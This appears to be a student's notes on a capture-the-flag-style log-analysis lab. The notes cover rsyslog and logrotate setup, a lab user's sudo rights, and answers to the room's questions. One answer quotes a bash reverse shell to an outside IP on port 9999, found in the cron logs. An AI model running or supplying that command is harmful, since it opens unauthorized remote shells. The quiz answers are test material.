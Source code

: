 ## Room goals:
- Understand the importance of logs as a historical activity record for identifying and mitigating potential threats
- Explore various types of logs, logging mechanisms and collection methods across multiple platforms
- Gain hands-on experience detecting and defeating adversaries through log analysis

## Scenario 
- web server being constantly hit with scans
- configure logging and analyze the logs to see what adversary is doing

user `damianhall` limited sudo priveledges
- `sudo -l` --> check what commands user has access to

```
User damianhall may run the following commands on WEBSRV-02:
    (ALL) NOPASSWD: /bin/systemctl status rsyslog
    (ALL) NOPASSWD: /bin/systemctl start rsyslog
    (ALL) NOPASSWD: /bin/systemctl stop rsyslog
    (ALL) NOPASSWD: /bin/systemctl restart rsyslog
    (ALL) NOPASSWD: /bin/systemctl status logrotate
    (ALL) NOPASSWD: /bin/systemctl start logrotate
    (ALL) NOPASSWD: /bin/systemctl stop logrotate
    (ALL) NOPASSWD: /bin/systemctl restart logrotate
    (ALL) NOPASSWD: /usr/sbin/logrotate -d /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/sbin/logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/gedit /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/nano /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vim /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vi /etc/logrotate.d/98-websrv-02_sshd.conf
```

- looks like can edit some config files and also access to start / stop rsyslog and logrotate

## Notes
useful locations (from `Note.txt` on machine desktop)

`/var/log/gitlab/`
`/var/log/gitlab/nginx/access.log` suspicious web browser activity 

logrotate configuration
`/etc/logrotate.d/`

components of gitlab instance 
`/var/opt/gitlab/logrotate/logrotate.d/`

## Questions
What is the name of your colleague who left a note on your Desktop?
- `Perry` (Desktop `note.txt`)

What is the full path to the suggested log file for initial investigation?
- `/var/log/gitlab/nginx/access.log` (Desktop `note.txt`)

Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?
- `web server log`
    - nginx logs (a webserver)

Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?
- `combined`
    - NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by **Nginx** HTTP Server by default.

After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?
- `stansimon`

![alt text](images/image-2.png)

What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?
- `10.10.10.101`

![alt text](images/image-3.png)

Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?
- `/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"`

![alt text](images/image-4.png)
- a reverse shell command...

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?
- 24

![alt text](images/image-6.png)

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?
- hourly

Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?
- `no date field`

![alt text](images/image-7.png)

What is the process of standardising parsed data into a more easily readable and query-able format?
- `normalisation`
    - with an "s"

What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?
- `Enrichment`

### Practical Examples
#### Log Collection with Rsyslog
first ssh'd into the machine from my kali attackbox

check if rsyslog is installed / running:

![alt text](images/image.png)

create config file:

`vim /etc/rsyslog.d/98-websrv-02-sshd.conf`
```
$FileCreateMode 0644
:programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log
```

restart rsyslog: `sudo systemctl restart rsyslog`

check its all working:

![alt text](images/image-1.png)

#### Practical Activity: Log Management with logrotate
- automates log file rotation, compression, and management
- setup for `/var/log/websrv-02/rsyslog_sshd.log`

1. create config file: `sudo vim /etc/logrotate.d/98-websrv-02_sshd.conf`
```
/var/log/websrv-02/rsyslog_sshd.log {
    daily
    rotate 30
    compress
    lastaction
        DATE=$(date +"%Y-%m-%d")
        echo "$(date)" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
        for i in $(seq 1 30); do
            FILE="/var/log/websrv-02/rsyslog_sshd.log.$i.gz"
            if [ -f "$FILE" ]; then
                HASH=$(/usr/bin/sha256sum "$FILE" | awk '{ print $1 }')
                echo "rsyslog_sshd.log.$i.gz "$HASH"" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
            fi
        done
        systemctl restart rsyslog
    endscript
}
```
2. execute `sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf`
